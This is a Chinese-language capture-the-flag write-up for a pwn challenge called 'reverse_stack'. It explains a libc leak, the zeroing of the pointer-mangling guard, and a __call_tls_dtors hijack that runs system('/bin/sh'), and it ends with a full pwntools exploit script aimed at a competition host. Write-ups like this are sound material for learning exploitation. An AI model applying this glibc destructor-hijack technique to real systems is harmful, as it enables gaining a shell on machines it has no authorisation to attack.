

# reverse_stack

> make it happen!!!!!

## 文件属性

|属性  |值    |
|------|------|
|Arch  |amd64 |
|RELRO |Full  |
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |
|libc  |2.35-0ubuntu3.8|

## 解题思路

程序自己实现了一个正向增长的栈（向高地址增长），栈的上方是tls。

首先第一次`LeaveNote`在tls下方泄露libcBase，然后往上把tls的`fs:[0x30]`覆盖成0，这样方便做`PTR_MANGLE`。
然后blue pill第二次`LeaveNote`借之前的痕迹泄露mmapBase，计算tls的位置，打`__call_tls_dtors`。
此时在`tls-0x58`的位置放一个指针，指向`PTR_MANGLE`过的`system`，设置它的参数为`"/bin/sh"`，
这样程序退出时就会自动执行这个"destructor"，打开shell。

由于比赛的时候断网，因此无法自动下载libc的调试符号，讲起来有点怪怪的。

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
context.arch = 'amd64'
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './revstack'

def payload(lo: int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh, 'b __call_tls_dtors')
    else:
        sh = remote('10.1.101.104', 9999)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.8_amd64/libc.so.6')

    def leave_note(length: int, content: bytes, loop: bool) -> bytes:
        sh.sendafter(b'long', p64(length))
        sh.sendafter(b'your buf\n', content)
        recv = sh.recvuntil(b'red pill', True)
        sh.send(b'red' if loop else p64(0))
        return recv

    # 1st LeaveNote
    leave_note(0x20660, b'1', True)
    libcBase = u64(leave_note(0xc0, b'2', True)[0x20:0x28]) - libc.symbols['_res']
    success(GOLD_TEXT(f"Leak libcBase: {libcBase:#x}"))
    libc.address = libcBase
    leave_note(0x100, p64(0), False) # set fs:[0x30] to 0

    # 2nd LeaveNote
    leave_note(0x20630, p64(0), True)
    mmapBase = u64(leave_note(0x60, p64(0), True)[0x20:0x28]) - 8
    success(GOLD_TEXT(f"Leak mmapBase: {mmapBase:#x}"))
    struct = flat({
        0:      mmapBase + 0x206f0, # points to system
        8:      rol(libc.symbols['system'], 17, 64), # PTR_MANGLE
        0x10:   mmapBase + 0x20700, # rdi of system, points to '/bin/sh'
        0x18:   b'/bin/sh'
        }, filler=b'\0')
    leave_note(0x40, struct, False)

    sh.clean()
    sh.interactive()
    sh.close()
```


